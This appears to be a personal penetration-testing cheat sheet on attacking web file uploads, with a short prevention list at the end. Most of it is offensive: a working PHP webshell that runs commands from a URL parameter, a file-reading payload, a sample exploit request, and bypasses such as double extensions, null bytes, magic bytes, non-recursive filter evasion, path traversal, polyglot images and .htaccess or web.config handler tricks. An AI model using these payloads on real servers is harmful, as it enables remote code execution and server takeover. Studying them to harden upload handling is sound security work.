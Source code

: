 # file upload
when files are uploaded
and not checked

its possible to upload fe a webshell
and then acces the webshell

## uploads
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
xample/exploit.php?command=id HTTP/1.1

## formdata
sometimes it only checks if a content type is image/png or something
you can ez do it in burpsuite
or with js see "script/file_upload_blob.js" you could just execute this in console

## path traversal
sometimes using path traversal techniques can be used in the filename

## extensions
or filename extension of lesser known could be used
.php5
.shtml

## server side preventions
some config files are used to prevent access or execution of certain files
these might be interesting to try to retrieve if possible 
if we can upload these than we can even let files we are able to upload fe allow php to work

web.config:
`<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers>
            <!-- Add handler to process PHP files -->
            <add name="PHP-FastCGI" path="*.php" verb="*" modules="FastCgiModule" scriptProcessor="C:\path\to\php\php-cgi.exe" resourceType="Either" requireAccess="Script" />
        </handlers>
    </system.webServer>
</configuration>`


.htaccess:
`AddHandler application/x-httpd-php .php`

## file name obfuscation
using multiple extensions
.php.jpg

trailing characters
.php.

encoding
%2Ephp

null byte characters maybe with encoding
.php;.jpg
.php%00.jpg

if replacing things and its not recursive
.ph.phpp

## filecontent
might be that a server will get the widht en height of image,
ofc with a script its not possible

or first bytes of a file need to be those of a image format
then magicbytes can be added in the beginning of a script to bypass this
jpeg: FF D8 FF

## polyglot
using exiftool trivial malicious code could be stored in a jpgs metadata
or just at the end of the file see "script/file_upload_polyglot.sh"

## put
sometimes other requests are excepted and not only GET or POST
fe PUT, OPTIONS

## prevention
splitting on . of the filename and checking against a whitelist
if removing dissalowed extensions do it recursively
making sure directeroy traversal cant be used: ../
renaming uploaded files
only allow scanned files to be uploaded
dont write this yourself, use established technologys

